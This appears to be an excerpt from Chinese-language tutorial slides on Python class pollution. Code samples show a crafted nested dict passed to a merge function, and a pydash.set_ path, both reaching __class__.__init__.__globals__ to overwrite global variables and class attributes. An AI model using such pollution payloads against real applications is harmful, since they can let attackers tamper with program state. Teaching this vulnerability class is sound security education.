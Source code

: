```python {all|5-16|19-24|26-41}{lines:true, maxHeight:'80%'}

# > <class '__main__.Polluted'>
# > Polluted
```

---

### Python 类污染：全局变量污染

```python {3-10|12-24|26-30}{lines:true, maxHeight:'80%'}
def merge(src, dst): ...

class User:
    def __init__(self):
        pass

class NotAccessibleClass:
    pass

not_accessible_variable = "Hello"

merge(
    {
        "__class__": {
            "__init__": {
                "__globals__": {
                    "not_accessible_variable": "Polluted variable",
                    "NotAccessibleClass": {"__qualname__": "PollutedClass"},
                }
            }
        }
    },
    User(),
)

print(not_accessible_variable)
print(NotAccessibleClass)

# > Polluted variable
# > <class '__main__.PollutedClass'>
```

由于我们可以找到从我们拥有的实例访问它的属性/项目链，因此我们能够利用特殊属性 `__globals__` 来访问和设置 NotAccessibleClass 类的属性，并修改全局变量 `not_accessible_variable`。

---

### 合并函数的真实示例

```python {*}{lines:true}
import pydash

class User:
    def __init__(self):
        pass

class NotAccessibleClass: pass
not_accessible_variable = 'Hello'

pydash.set_(User(), '__class__.__init__.__globals__.not_accessible_variable','Polluted variable')
print(not_accessible_variable)

pydash.set_(User(), '__class__.__init__.__globals__.NotAccessibleClass.__qualname__','PollutedClass')
print(NotAccessibleClass)
```